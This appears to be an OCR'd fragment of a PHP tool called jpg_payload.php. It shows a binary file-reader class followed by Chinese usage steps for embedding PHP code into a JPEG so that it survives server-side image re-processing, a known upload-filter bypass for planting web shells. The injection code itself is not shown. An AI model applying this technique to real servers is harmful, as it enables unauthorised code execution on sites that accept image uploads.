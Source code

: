 ```php
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
使用方法：
找一个jpg图片,先上传至服务器然后再下载到本地保存为1.jpg.
插入php代码
使用脚本处理1.jpg,命令php jpg_payload.php 1.jpg
使用16进制编辑器打开,就可以看到插入的php代码.
```
